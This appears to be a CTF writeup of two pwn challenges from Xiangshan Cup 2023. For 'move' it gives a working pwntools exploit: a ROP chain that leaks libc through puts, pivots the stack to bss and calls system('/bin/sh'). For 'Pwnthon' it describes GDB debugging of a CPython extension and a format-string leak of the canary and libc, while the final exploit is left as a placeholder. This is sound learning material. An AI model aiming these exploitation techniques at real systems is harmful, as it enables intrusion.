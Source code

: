 ```yaml
---
title: 「PWN」【Xiangshan Cup 2023】Writeup WP Reproduction

tags: ['CTF', 'Pwn', 'writeup', 'wp']

authors: [nova]
---
```


Two simple PWN challenges, simply updated, documenting Python debugging along the way.



## move

Simply a check-in challenge, where we need to leak the libc address to call system after getting an initial stack migration, eliminating the need for a second migration. The code snippet is omitted.

It's worth noting that before the second read, RSP is pointing to bss + 8, so when we call read, it reaches bss, and the return address goes directly to bss, eliminating the need for a second migration.

```python
pop_rdi = 0x0000000000401353
bss = 0x4050a0
leave_ret = 0x40124b

sendafter(b'again!', p64(pop_rdi) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(elf.symbols['main']))
sendafter(b'number', p32(0x12345678))
dbg(pause_time=5)
sendafter(b'TaiCooLa', b'A'*0x30 + p64(bss-8) + p64(leave_ret))

libc.address = u64(recv(6).ljust(8, b'\x00')) - libc.symbols['puts']
print(f'libc: {hex(libc.address)}')
sendlineafter(b'again!', p64(pop_rdi) + p64(libc.search(b'/bin/sh').__next__()) + p64(libc.symbols['system']))
interactive()
```

## Pwnthon

A .so file written using CPython, requiring the same Python version for importing.

Noting that the .so file is dynamically loaded, breakpoints cannot be set directly using `gdb.debug`. However, it was observed during testing that setting breakpoints at the `read` function did not allow for continuing past the breakpoint.

:::info

It is speculated afterwards that the breakpoint might have been set at the wrong position, which is difficult to evaluate.

:::

Therefore, a slightly tricky approach was used by setting a breakpoint at the position `PyImport_ImportModule+4`, to see which package triggers the loading of the .so file. Once identified, another breakpoint can be set conditionally for debugging.

```python
b *PyImport_ImportModule+4 if strcmp((char*)$rdi, "datetime") == 0
```

There is also a technique for setting breakpoints, where it was discovered while importing into IDA that it contains debug information, making it possible to identify which file and line a specific function belongs to. GDB automatically handles the offset, making it more convenient. Of course, due to the presence of symbol tables, `func_name+offset` can be used directly as well.

![image-20231017090646706](https://cdn.ova.moe/img/image-20231017090646706.png)

```python
b app.c:2963
# or
b __pyx_f_3app_Welcome2Pwnthon+36
```

After discussing the debugging methods, let's proceed directly to the exploit. The vulnerability is also quite apparent, a format string vulnerability along with a stack overflow.

![image-20231017091040667](https://cdn.ova.moe/img/image-20231017091040667.png)

However, Python cannot use methods like `%n$`, therefore, it needs to be written step by step, leading to no arbitrary address writing method. Nevertheless, upon GDB inspection, it was found that there were addresses like `open64+232` on the stack that could be leaked, along with the canary, to achieve the leak.

![image-20231017092014997](https://cdn.ova.moe/img/image-20231017092014997.png)

It is noteworthy that in Python, rsp is used to store the return address, so even though it is `%31$p`, it effectively corresponds to `%30$`.

```python title=exp.py
sendline(b'%p.'*0x1e)
resp = recvline(keepends=False).split(b'.')
print(resp)
canary = int(resp[-2], 16)
success(f'>> canary = {hex(canary)}')
libc.address = int(resp[-8], 16) - 0x1147b8
success(f">> libc = {hex(libc.address)}")
```

After obtaining the leak, it's a matter of stack overflow to write to `system`.

```python
# Exploit code
<Exploit code here>
```

```bash
python exp.py -a main.py venv/bin/python # venv/bin/python corresponding to version 3.7
```

<!-- AI -->
